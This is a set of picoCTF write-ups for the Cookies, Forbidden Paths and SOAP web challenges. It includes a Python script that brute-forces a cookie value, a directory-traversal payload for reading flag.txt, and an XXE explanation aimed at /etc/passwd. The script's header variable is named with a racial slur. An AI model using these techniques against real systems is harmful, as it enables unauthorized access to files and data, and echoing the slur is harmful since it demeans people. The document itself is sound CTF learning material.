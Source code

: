 ﻿# Cookies

### Flag: picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535} 


   * The Challenge is Called Cookies so Naturally First thought is that is has something to do with Web Cookies.
   * The Challenge Description provides us links to the following web-app `http://mercury.picoctf.net:17781/`

![Home Image](assets/web_home.png)
    
   - Inspecting the Dev panel we notice something very interesting, There's a Cookie called "name" with the values "-1"
   - Ok lets Explore further 

![Requests Image](assets/request_image.png)

   - Next typing the prompt on the text box gives us 2 Network Requests as seen on the image. 

   - Ok, now lets try with something random in the box

![invalid Request Image](assets/random_req_image.png) 

   - so it seems that when we search a valid string  the search sets up the name cookie redirects us to '/check' and if not it just sends us back to the home page
   - We need to Find the valid cookie value for the flag, 
   - This Code Prints the Html oF the page with the flag. 

```py
    import requests
    for i in range(100):
        print(i) #debugging
        changed_values = f"name={i}"
        niga={'Cookie': changed_values}


        r=requests.get("http://mercury.picoctf.net:17781/check",headers=niga)

        if "picoCTF" in r.text:
            print(r.text)
            break
```

   - Gives output as

```
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```




   - looking through the html we get the flag. 


Other incorrect methods you tried:

- Looked through the entire files and things as i incorrectly thought that you needed a specific password phrase to get the flag. 



---

# Forbidden Paths

### Flag: picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}

   - In the Challenge there is a Dialog box for reading files
![paths_image](assets/path_image.png)
   - Use `../../../../../../../../../../../../flag.txt` to print the flag. 



What you learned through solving this challenge:

1. Search for arbitary command Injection in Websites,
2. Linux Command Line Manipulation. 

---

# SOAP

**Flag:** `picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}`

- The Challenge Hint gives us some input about on how to proceed with it, it says `XML external entity Injection`.

### xml and its entities, 
XML is just information wrapped in tags,
there are certain special characters which are called xml entities.
Entities are used to define shortcuts to special characters.
xml Entities can refrence system files as well. 


Entities can be declared internal or external.
we know that to solve this challenge we need to somehow manipulate the http request which requests a xml document.

- We can define a external xml entity and have it refrence the /etc/passwd file which will solve the challenge for us.

![Http_req_xml_entity_injection](./assets/soap_hhtp_req.png) 

- as you can see the we have defined a xml entity which will refrence the `/etc/passwd` file. 

- sending the request we get, which gives us the flag. 


![SOAP_http_req_output](./assets/SOAP_REQ_FINAL.png)


What you learned through solving this challenge:

1. Learnt about XML and how it is parsed.
2. About http requests and how they are parsed. 

Other incorrect methods you tried:

- incorrectly modifying the xml document, 

References

- https://www.w3schools.com/xml/xml_dtd_entities.asp
- https://portswigger.net/web-security/xxe
 



